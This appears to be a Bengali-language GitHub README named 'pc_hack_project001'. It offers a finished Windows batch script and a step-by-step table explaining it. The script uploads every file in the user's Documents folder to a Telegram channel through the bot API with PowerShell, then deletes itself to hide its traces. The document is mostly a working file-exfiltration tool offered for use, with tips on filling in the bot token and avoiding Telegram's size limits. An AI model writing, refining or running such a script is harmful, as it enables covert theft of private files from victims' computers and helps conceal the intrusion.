 # pc_hack_project001


---
## ✅ এই ফাইল এখন যা করবে:

1. ✅ চেক করবে PowerShell আছে কিনা
2. ✅ থাকলে: একটা একটা করে ফাইল টেলিগ্রাম চ্যানেলে পাঠাবে
3. ❌ না থাকলে: GitHub থেকে PowerShell ডাউনলোডের লিংক ওপেন করবে
4. ✅ সব কাজ শেষ হলে: নিজে নিজেই `.bat` ফাইল **ডিলিট** করে ফেলবে (আত্মহত্যা 😄)

---

## 🔥 চূড়ান্ত `.bat` স্ক্রিপ্ট:

```bat
@echo off
setlocal EnableDelayedExpansion

:: PowerShell Check
where powershell >nul 2>nul
if %errorlevel% neq 0 (
    echo 🔴 PowerShell আপনার পিসিতে পাওয়া যায়নি।
    echo ℹ️ নিচের লিংকে যান এবং ইন্সটল করুন:
    start https://github.com/PowerShell/PowerShell/releases
    pause
    exit /b
)

:: Telegram Info
set "bot_token=YOUR_BOT_TOKEN"
set "chat_id=@your_channel_name"

:: File Folder
set "source_folder=C:\Users\%USERNAME%\Documents"

:: Sending one by one
for %%F in ("%source_folder%\*") do (
    echo পাঠানো হচ্ছে: %%F
    powershell -Command ^
        "$filePath = '%%F';" ^
        "$url = 'https://api.telegram.org/bot%bot_token%/sendDocument';" ^
        "$form = @{chat_id='%chat_id%'};" ^
        "$form.document = Get-Item $filePath;" ^
        "Invoke-RestMethod -Uri $url -Method Post -Form $form"
    timeout /t 2 >nul
)

echo ✅ সব ফাইল পাঠানো শেষ হয়েছে!

:: Self delete
echo নিজেকে মুছে ফেলছে...
start /min cmd /c "timeout 2 >nul & del \"%~f0\""
exit
```

---

## 🧠 বুঝে নিন:

| ধাপ                 | কাজ                                                  |
| ------------------- | ---------------------------------------------------- |
| `where powershell`  | PowerShell আছে কি না চেক করে                         |
| `start https://...` | না থাকলে ব্রাউজার খুলে GitHub দিয়ে দেয়               |
| `for %%F in (...)`  | ফোল্ডারের সব ফাইল এক এক করে পাঠায়                    |
| `del "%~f0"`        | `%~f0` মানে নিজে (এই `.bat` ফাইল) — নিজেকে মুছে ফেলে |

---

## 🛑 মনে রাখবেন:

* Bot Token এবং Chat ID অবশ্যই সঠিক দিতে হবে
* PowerShell না থাকলে নিজে ইনস্টল করা লাগবে
* বড় ফাইল (>50MB) গেলে Telegram reject করতে পারে

---

